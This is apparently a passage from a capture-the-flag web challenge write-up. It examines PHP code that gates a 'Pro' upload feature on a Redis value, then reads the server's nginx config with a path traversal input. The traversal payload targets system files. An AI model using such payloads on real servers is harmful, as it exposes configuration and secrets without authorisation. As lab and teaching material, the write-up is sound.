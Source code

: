 ```php
provisionProUser();
```

This “Pro” option is interesting. in the same page :

```php
//add image
if (isset($_FILES['image']) && isset($_POST['id'])) {
    if(isPro() === "false") {
        print_r("Pro subscription required to upload images");
        header("Location: /edit?message=Pro subscription required&status=fail");
        exit();
    }
```

The pro option allow to upload images for example :

```php
function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}
```

We need a way to access redis storage.
### redis storage

In order to find a way to access redis, let's explore the configuration of the HTTP server, nginX. For this, we can read the config file of the default HTTP application :

`id=../../../../../../../../etc/nginx/sites-enabled/default&txt=test`

```nginx
### You should look at the following URL's in order to grasp a solid understanding
# of Nginx configuration files in order to fully unleash the power of Nginx.
# https://www.nginx.com/resources/wiki/start/
# https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/
# https://wiki.debian.org/Nginx/DirectoryStructure
## In most cases, administrators will remove this file from sites-enabled/ and
# leave it as reference inside of sites-available where it will continue to be
# updated by the nginx packaging team.
## This file will automatically load configuration files provided by other
# applications, such as Drupal or Wordpress. These applications will be made
# available underneath a path with that package name, such as /drupal8.
## Please see /usr/share/doc/nginx-doc/examples/ for more detailed examples.
### Default server configuration#server 
{
 listen 80 default_server;
 listen [::]:80 default_server;
 # SSL configuration 
 # # listen 443 ssl default_server;
 # listen [::]:443 ssl default_server;
 # # Note: You should disable gzip for SSL traffic. 
 # See: https://bugs.debian.org/773332 
 # # Read up on ssl_ciphers to ensure a secure configuration. 
 # See: https://bugs.debian.org/765782 
 # # Self signed certs generated by the ssl-cert package 
 # Don't use them in a production server! 
 # # include snippets/snakeoil.conf; 
 root /var/www/html; 
 # Add index.php to the list if you are using PHP 
 index index.html index.htm index.nginx-debian.html; 
```